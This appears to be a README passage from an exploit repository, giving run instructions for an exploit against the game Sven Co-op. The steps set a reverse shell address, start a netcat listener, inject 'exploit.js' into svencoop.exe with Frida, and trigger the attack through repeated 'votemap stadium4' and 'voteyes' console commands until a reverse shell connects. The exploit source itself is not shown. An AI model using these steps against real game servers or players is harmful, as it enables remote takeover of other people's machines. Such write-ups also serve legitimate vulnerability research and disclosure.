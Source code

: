 ## How to run the exploit

- Edit the script to change reverse shell address and port
- Spawn a listen netcat
- Start the game
- `frida -l exploit.js -n svencoop.exe`
- Connect to server
- In game console:

```
votemap stadium4
voteyes
```

- Wait for the map to reload / change
- In game console:

```
votemap stadium4
voteyes
```

- Wait for the map to reload / change, the reverse shell will connect
